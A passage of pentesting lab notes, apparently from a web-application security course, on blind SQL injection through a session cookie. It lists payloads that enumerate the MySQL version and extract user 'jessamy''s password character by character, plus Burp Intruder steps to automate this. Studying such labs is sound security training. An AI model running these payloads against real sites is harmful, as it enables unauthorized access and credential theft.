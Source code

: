 📌 Modifying or manipulating the session cookie by injecting SQL and receiving the same successful response suggests the presence of **SQL injection**

- Make a query that gets the version character by character from the database
  - [MySQL SUBSTRING() Function](https://www.w3schools.com/sql/func_mysql_substring.asp)

```bash
# substring e.g.
Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring('a', 1, 1) = 'a'#

Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring((select version()), 1, 1) = '8'#

Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring((select version()), 1, 4) = '8.0.'#

Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring((select version()), 1, 5) = '8.0.3'#
# version enumeration Successfully

Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring((select password from injection0x02 where username = 'jessamy'), 1, 1) = 'a'#
# takes too long manually
```

- Extract `jessamy`'s password via **Intruder**
  - send the Request to Intruder
  - set the last letter `a` of the inject as Position
  - add all keyboard letters to the payload simple list
  - start attack
  - filter by **length** or **status code**

![Intruder Sniper attack](6-webappassets/2025-02-24_22-39-27_905.png)
